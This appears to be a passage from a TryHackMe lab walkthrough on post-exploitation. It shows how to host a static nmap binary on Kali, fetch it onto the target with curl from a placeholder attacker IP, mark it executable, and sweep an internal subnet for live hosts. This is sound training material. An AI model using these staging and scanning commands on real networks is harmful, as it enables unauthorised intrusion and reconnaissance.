 It's time to put your newfound knowledge to the test!

Download a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true). Rename it to `nmap-USERNAME`, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing. 

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Nmap binary):

```
sudo python3 -m http.server 80
```

Then, on the target:

```
curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME
```

![Using cURL and a Python HTTP server to upload nmap to the target](assets/f621bb960163.png)

------

Now use the binary to scan the network. The command will look something like this:

```
./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME
```

You will need to substitute in your username, and the correct IP range. For example:

```
./nmap-MuirlandOracle -sn 10.200.72.1-255 -oN scan-MuirlandOracle
```

Here the `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.

Note that this would also work with CIDR notation (e.g. 10.x.x.0/24).
